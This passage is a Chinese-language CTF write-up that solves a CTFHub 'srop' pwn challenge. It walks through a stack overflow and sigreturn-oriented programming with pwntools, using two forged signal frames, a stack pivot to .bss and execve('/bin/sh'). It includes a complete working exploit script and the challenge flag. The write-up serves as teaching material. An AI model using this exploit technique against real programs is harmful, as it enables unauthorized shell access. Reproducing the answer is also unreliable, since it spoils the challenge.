exit：终止进程，系统调用号通常是60。

那么0即是调用SYS_read，它允许我们输入0x400的数据，但是buf大小只有16(0x10)大小，很明显，
这是有栈溢出的，而且没有canary保护，栈溢出变得更简单了。


继续分析程序
发现有一个叫做gift的可疑函数：


其逻辑也是非常简单，它就传回了一个返回值15,众所周知，函数返回时是给rax赋值，那么这个函数就可以看
作是mov rax,15;ret;这个gadget。那么有什么用呢，相信大家都想到了系统调用，正好15对应的就是sigreturn的调用号
sigreturn会根据栈空间给寄存器赋值，以恢复进程调用前的状态，那么我们就可以利用sigreturn来
篡改寄存器。

那么如何获得shell呢？
不难想到，我们可以利用SYS_execve("/bin/sh",0x0,0x0);来获取shell
那么我们就需要调用调用号为59的系统调用，并给rdi赋值为/bin/sh的地址，给rsi赋值为0x0，给rdx赋值为0x0
查找程序的字符串，并未找到类似/bin/sh或sh的字符串


那我们就需要再次调用SYS_read函数来写入/bin/sh到bss段，刚好也可以布置我们的execve的Signal frame

现在思路已经清晰了，开始上手吧！

#### 第一步

先写好基本格式

```python
from pwn import *
p=process("./srop")
# p=remote("challenge-1ee3de1a2f7456fc.sandbox.ctfhub.com",26839)
elf=ELF("./srop")
bss_start=elf.bss()+0x100
print("bss_start : "+hex(bss_start))#方便确认bss段中的数据
gift=elf.symbols['gift']
context.clear()
context.arch="amd64"
syscall_addr=0x401179
```

因为是64位程序，所以其rbp的大小为0x8
则padding可以写成:

```python
payload=b"\x00"*24
```

下面我们使用pwntools中的SigreturnFrame()来构造虚假的Signal Frame
为什么这样构造可参见第二步

```python
frame=SigreturnFrame()
frame.rax=constants.SYS_read
frame.rdi=0x0
frame.rsi=bss_start
frame.rdx=0x300
frame.rbp=bss_start
frame.rip=syscall_addr
```

这里的Signal Frame实现了再次调用SYS_read来读入第二次的Signal Frame
为了能调用Sigreturn我们必须先控制rip指向gift函数，再指向syscall
则

```python
payload+=p64(gift)
payload+=p64(syscall_addr)
payload+=bytes(frame)
```

但是经过测试，发现爆出了EOF错误，怎么回事呢，我们使用gdb看看


发现程序虽然跳进了gift但是未能执行syscall,而且当gift结束时rip指向了我们
padding的rbp，那我们就修改我们的payload:

```python
payload=b"\x00"*16
payload+=p64(0x401179)
payload+=p64(gift)
payload+=bytes(frame)
```

再次测试，发现没有错误产生。
这样就可以正常输入了。

第一步完成

#### 第二步

现在我们把栈迁移到bss段上，因为在我们在二次伪造系统调用后栈结构
已经损坏，无法继续使用，而且没有syscall;ret,我们就需要在bss段
上伪造一个栈，栈(bss_start)的起始地址是bss()+0x100(bss_start)这是
因为bss段在程序中只映射了一页(0x1000)而且，在bss段低地址处可能还存储着一些
重要数据，我们不能破坏他们。
这就是为什么我们要把/bin/sh写在bss段上的原因，在第一步的frame中，
我们让read函数读入了0x300的数据，这已经足够伪造一个栈了。
为了迁移栈，我们就把frame.rbp设置为了bss_start了。

那么现在我们就已经将栈迁移到了bss_start上了。
接下来构造执行execve的frame

```python
frame1=SigreturnFrame()
frame1.rax=constants.SYS_execve
frame1.rdi=bss_start+0x200
frame1.rsi=0x0
frame1.rdx=0x0
frame1.rip=syscall_addr
```

那么/bin/sh就写在frame1的后面

```python
payload2=p64(0x401179)
payload2+=p64(0x401136)
payload2+=bytes(frame1)
payload2+=b"\x00"*(0x200-len(payload2))
payload2+=b'/bin/sh\x00'
```

第二步完成

#### 第三步(EXP)

我们现在把以上的payload串联起来就可以了
解题代码:

```python
from pwn import *
p=process("/root/Desktop/ctf/pwn/srop")
# p=remote("challenge-1ee3de1a2f7456fc.sandbox.ctfhub.com",26839)
elf=ELF("/root/Desktop/ctf/pwn/srop")
bss_start=elf.bss()+0x100
print("bss_start : "+hex(bss_start))
gift=elf.symbols['gift']
context.clear()
context.arch="amd64"

frame=SigreturnFrame()
frame.rax=constants.SYS_read
frame.rdi=0x0
frame.rsi=bss_start
frame.rdx=0x300
frame.rbp=bss_start
frame.rip=0x401179

payload=b"\x00"*16
payload+=p64(0x401179)
payload+=p64(gift)
payload+=bytes(frame)
# gdb.attach(p)

payload2=p64(0x401179)
payload2+=p64(0x401136)
frame1=SigreturnFrame()
frame1.rax=constants.SYS_execve
frame1.rdi=bss_start+0x200
frame1.rsi=0x0
frame1.rdx=0x0
frame1.rip=0x401179
payload2+=bytes(frame1)
payload2+=b"\x00"*(0x200-len(payload2))
payload2+=b'/bin/sh\x00'
p.sendline(payload)
input("按任意键继续......")
p.sendline(payload2)
p.interactive()
```

运行代码输入

```shell
cat flag
```

即可获得flag



--------

#### FLAG

flag为动态

```plain
ctfhub{9ba7a54276e65220476a78c3}
```
